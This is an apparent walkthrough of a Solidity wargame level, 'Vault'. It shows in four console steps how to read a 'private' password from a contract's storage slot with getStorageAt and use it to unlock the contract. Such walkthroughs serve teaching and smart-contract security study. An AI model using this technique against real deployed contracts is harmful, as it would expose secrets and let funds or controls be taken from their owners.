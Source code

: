 # Level 8: Vault

### Wargame
Unlock the vault to pass the level!

### Key Insights
* Storage Slots
* In Solidity, all state variables—including private ones—are stored in storage slots, which are part of the contract’s persistent storage. 

### Attack Steps
1. Before executing the attack, display the locked value of the target contract.
    ```bash
    > await contract.locked()
    true
    ```

2. Retrieve the password value from the storage slots of the target contract.
    ```bash
    > password = await web3.eth.getStorageAt(instance, 1)
    '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
    ```

3. Call the unlock with the password value to attack the contract.
    ```bash
    > await contract.unlock(password)
    {tx: '0x5ee4c50bc2b754b2c67d2ba5228cc157d3fca9a41916dcc4d821ed3be0d736a9', receipt: {…}, logs: Array(0)}
    ```

4. After the transaction is confirmed, display the locked value of the target contract again.
    ```bash
    > await contract.locked()
    false
    ```
